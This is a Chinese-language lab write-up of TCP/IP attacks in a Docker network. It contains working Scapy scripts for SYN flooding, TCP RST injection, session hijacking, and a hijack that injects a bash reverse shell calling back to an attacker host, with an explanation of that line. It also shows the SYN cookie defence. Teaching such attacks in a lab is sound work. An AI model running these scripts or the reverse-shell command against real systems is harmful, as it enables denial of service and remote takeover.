# TCP/IP Attack Lab

## Experimental Principle

TCP/IP 协议中的漏洞代表了协议设计和实现中一种特殊类型的漏洞；它们提供了宝贵的教训，说明为什么应该从一开始就设计安全性，而不是事后才添加。此外，研究这些漏洞有助于我们了解网络安全的挑战以及为什么需要许多网络安全措施。在本实验中，我们将对 TCP 进行多次攻击。

## Environment Setup using Container

本次实验采用 `docker-compose` 配置文件搭建了一个具有 $4$ 台机器的网络，如图：



首先，进入 `Labsetup` 文件夹，构建并启动容器，同时使其后台运行：



一些实验可能会用到的命令：

```bash
sysctl net.ipv4.tcp_max_syn_backlog                 #查看 TCP 最大队列值
sysctl -w net.ipv4.tcp_max_syn_backlog=80           #暂时设置 TCP 最大队列为 80
netstat -nat                                        #查看 TCP 连接状态
netstat -nat | grep SYN_RECV | wc -l                #统计处于 SYN_RECV 状态的 TCP 连接数
ip tcp_metrics flush								#清空 TCP 缓存
sysctl -a | grep syncookies 						#显示 syncookie 位
sysctl -w net.ipv4.tcp_syncookies=0 				#关闭 syncookie
sysctl -w net.ipv4.tcp_syncookies=1 				#打开 syncookie
```

---


## Task 1: SYN Flooding Attack

SYN 泛洪是 DoS 攻击的一种形式，攻击者向受害者的 TCP 端口发送许多 SYN 请求，但攻击者无意完成 3 次握手过程。攻击者要么使用欺骗性的 IP 地址，要么不继续该过程。通过这种攻击，攻击者可以淹没受害者的队列。



### Task 1.1: Launching the Attack Using Python

编写 `syn-flood.py`：

```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address          
from random import getrandbits

target_ip = "10.9.0.5"
ip = IP(dst=target_ip)           # 创建一个IP层对象，目标地址（dst）设为10.9.0.5
tcp = TCP(dport=23, flags='S')    # 创建一个TCP层对象，目标端口（dport）设为23，并设置SYN标志
pkt = ip/tcp                      # 将IP层和TCP层组合成一个完整的数据包

print("开始syn泛洪攻击...")
while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))       # 设置数据包的源IP地址为随机生成的IPv4地址
    pkt[TCP].sport = getrandbits(16)                      # 设置数据包的源端口为随机生成的16位整数
    pkt[TCP].seq = getrandbits(32)                        # 设置数据包的序列号为随机生成的32位整数
    send(pkt, verbose=0)                                  # 发送数据包，将verbose参数设为0以避免输出发送日志
    print(f"syn泛洪攻击中...攻击目标 {target_ip}")
```

在 $attacker$ 上启动针对 $victim$ 泛洪攻击：



为了提高攻击的成功率，我们将 $victim$ 的 TCP 队列容量设置为了 $80$ ，同时运行多个程序同时进行攻击。





此时在 $user1$ 上 `telnet victim` 试图建立 TCP 连接：



可以看到一直连接不上。

我们看一看 $victim$ 的 TCP 连接状态：



可以看见被塞满了。

再详细看一下：



会话队列中有四分之一会保留给曾经建立过会话的IP地址，所以洪泛攻击只会影响那些从未建立过会话的用户，只能抢占约3/4的队列条目。

如图，被洪泛占领的条目仅约总条目的3/4。

---


### Task 1.2: Launch the Attack Using C

首先清空 $victim$ 的 TCP 缓存，防止上一次实验的影响：



编译并运行`./volumes`提供的 `synflood.c` 文件。

由于 C程序执行的速度非常快，我们正常运行程序就行。





此时在 $user1$ 上 `telnet victim` 试图建立 TCP 连接：



可以看到连接不上。

---

### Task 1.3: Enable the SYN Cookie Countermeasure

首先清空 $victim$ 的 TCP 缓存，防止上一次实验的影响：


启动 `syncookies`：



在 $user1$ 上 `telnet victim` 试图建立 TCP 连接：



可以看到可以正常建立连接

查看一下 $victim$ 的状态：



即使在 TCP 队列爆满的情况下依然能建立连接。可见 `syncookies` 对防御 `synflood` 攻击无疑是非常有效的。

---


## Task 2: TCP RST Attacks on telnet Connections

TCP RST 攻击可以终止两个受害者之间已建立的 TCP 连接。

例如，如果两个用户 A 和 B 之间已建立 telnet 连接 (TCP)，则攻击者可以欺骗从 A 到 B 的 RST 数据包，从而破坏此现有连接。

编写 `tcprst.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    # 定义一个函数 spoof_pkt，用于伪造并发送TCP重置（RST）包
    ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
    # 创建IP层对象，源地址（src）和目的地址（dst）都与捕获到的数据包相同
    tcp = TCP(sport=23, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq+1)
    # 创建TCP层对象：
    # - 源端口（sport）设为23
    # - 目的端口（dport）与捕获到的数据包的目的端口一致
    # - 标志位（flags）设为 "R"，表示TCP RST（重置）包
    # - 序列号（seq）设为捕获包的序列号加1

    pkt = ip/tcp
    # 将IP层和TCP层组合成一个完整的数据包

    ls(pkt)
    # 显示数据包的详细信息结构（用于调试）

    send(pkt, verbose=0)
    # 发送伪造的TCP RST包，设置verbose=0以避免输出发送日志

f = f'tcp and src host 10.9.0.5'
# 定义过滤条件，仅捕获源IP地址为10.9.0.5的TCP数据包

pkt = sniff(iface='br-832b8642e575', filter=f, prn=spoof_pkt)
# 捕获网络数据包：
# - 捕获到符合条件的数据包后，调用函数 spoof_pkt 对该包进行处理
```

我们先让 $user1$ 连接上 $victim$ :



在 $attacker$ 上运行 `tcprst.py` ：



在 $user1$ 上输入任意字符产生 TCP 流量：


可以看到连接被断开了。

再次尝试登录：



可以看到一连接上就被断开了。

---

## Task 3: TCP Session Hijacking

TCP 会话劫持攻击的目标是通过向会话中注入恶意内容来劫持两个受害者之间现有的 TCP 连接（会话）。

如果此连接是 telnet 会话，攻击者可以向此会话注入恶意命令（例如删除重要文件），导致受害者执行恶意命令。

编写 `tcphijacking.py`:

```python
#!/usr/bin/env python3

from scapy.all import *

def spoof_pkt(pkt):
    
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    # 创建IP层对象，交换源地址和目的地址
    # - 源地址（src）设为捕获到的数据包的目的地址
    # - 目的地址（dst）设为捕获到的数据包的源地址

    tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    # 创建TCP层对象：
    # - 源端口（sport）设为捕获到的数据包的目的端口
    # - 目的端口（dport）设为23（通常为Telnet端口）
    # - 标志位（flags）设为 "A"，表示TCP ACK（确认）包
    # - 序列号（seq）设为捕获包的确认号（ack），
    # - 确认号（ack）设为捕获包的序列号加1

    data = "echo \"You\'re hijacked!\" >> ~/hijacking.out\n\0"
    # 定义数据部分，包含一个恶意命令，尝试将字符串追加到目标系统的文件中
    # - 该命令试图将消息写入目标主机的hijacking.out文件
    # ~符号通常代表用户的主目录。例如，对于用户user1，该路径会解析为/home/user1/hijacking.out

    pkt = ip/tcp/data

    ls(pkt)

    send(pkt, verbose=0)
    # 发送伪造的TCP ACK包，设置verbose=0以避免输出发送日志

f = f'tcp and src host 10.9.0.5'
# 定义过滤条件，仅捕获源IP地址为10.9.0.5的TCP数据包

pkt = sniff(iface='br-832b8642e575', filter=f, prn=spoof_pkt)
# 捕获网络数据包：
# - 捕获到符合条件的数据包后，调用函数 spoof_pkt 对该包进行处理

```

脚本的攻击目标是向目标主机注入恶意命令，并试图将其写入目标主机的文件 `~/hijacking.out` 中

我们先让 $user1$ 连接上 $victim$ :



在 $attacker$ 上运行 `tcphijacking.py` ：


在 $user1$ 上输入任意字符产生 TCP 流量，查看 $victim$ 的目录：



可以看到 $victim$ 已被侵入。

---

## Task 4: Creating Reverse Shell using TCP Session Hijacking

当攻击者能够使用 TCP 会话劫持将命令注入受害者的计算机时，他们对在受害者计算机上运行一个简单的命令不感兴趣；

他们对运行许多命令感兴趣。显然，通过 TCP 会话劫持来运行这些命令是不方便的。

攻击者想要达到的目的就是利用这次攻击设置一个后门，然后利用这个后门方便地进行进一步的破坏。

设置后门的典型方法是从受害计算机运行反向 shell，以便攻击者可以通过 shell 访问受害计算机。

反向 shell 是在远程计算机上运行的 shell 进程，连接回攻击者的计算机。

编写 `reverseshell.py`：

```python
#!/usr/bin/env python3

from scapy.all import *

def spoof_pkt(pkt):

    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    # 创建IP层对象，交换源地址和目的地址：
    # - 源地址（src）设为捕获到的数据包的目的地址
    # - 目的地址（dst）设为捕获到的数据包的源地址

    tcp = TCP(sport=pkt[TCP].dport, dport=23, flags="A", seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    # 创建TCP层对象：
    # - 源端口（sport）设为捕获到的数据包的目的端口
    # - 目的端口（dport）设为23（通常为Telnet端口）
    # - 标志位（flags）设为 "A"，表示TCP ACK（确认）包
    # - 序列号（seq）设为捕获包的确认号（ack），
    # - 确认号（ack）设为捕获包的序列号加1

    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
    # 定义数据部分，包含一个反向Shell命令，该命令试图通过网络连接远程主机
    # - 命令启动一个bash Shell，并将其输入和输出重定向到远程主机的指定IP（10.9.0.1）和端口（9090）

    pkt = ip/tcp/data
    # 将IP层、TCP层和数据部分组合成一个完整的数据包

    send(pkt, verbose=0)
    # 发送伪造的TCP ACK包，设置verbose=0以避免输出发送日志

f = f'tcp and src host 10.9.0.5'
# 定义过滤条件，仅捕获源IP地址为10.9.0.5的TCP数据包

pkt = sniff(iface='br-832b8642e575', filter=f, prn=spoof_pkt)
# 捕获网络数据包：
# - 捕获到符合条件的数据包后，调用函数 spoof_pkt 对该包进行处理

```

这段代码通过伪造 TCP 数据包，试图向目标主机注入一个反向 Shell 命令，从而建立一个攻击者控制的连接。

攻击成功后，攻击者可以获得目标主机的 Shell 访问权限，执行任意命令。

关于`/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1` 这条指令：

- `> /dev/tcp/10.9.0.1/9090` 这是一个特殊的文件重定向，它利用Linux的伪文件系统将Shell的标准输出（`>`符号）重定向到一个TCP连接。
- `0<&1`：将标准输入（文件描述符`0`）重定向为标准输出（文件描述符`1`），让Shell的输入从远程主机接收
- `2>&1`：将标准错误（文件描述符`2`）重定向到标准输出（文件描述符`1`），将所有错误信息也发送到远程主机。
- 整个指令的目的是让目标主机的 Shell 会话通过 TCP 连接发送至攻击者主机的`10.9.0.1:9090`端口，同时接收来自攻击者的指令，实现远程Shell控制。

接下来在 $attacker$ 上开启监听：



让 $user1$ 连接上 $victim$ :


在 $attacker$ 上运行 `reverseshell.py`：



产生一点 TCP 流量后：



可以看到成功拿到了 $victim$ 的 $shell$。

---

## Summary

主要学习了：

- TCP 协议
- TCP SYN 泛洪攻击和 SYN cookie
- TCP 重置攻击
- TCP 会话劫持攻击
- shell 反弹
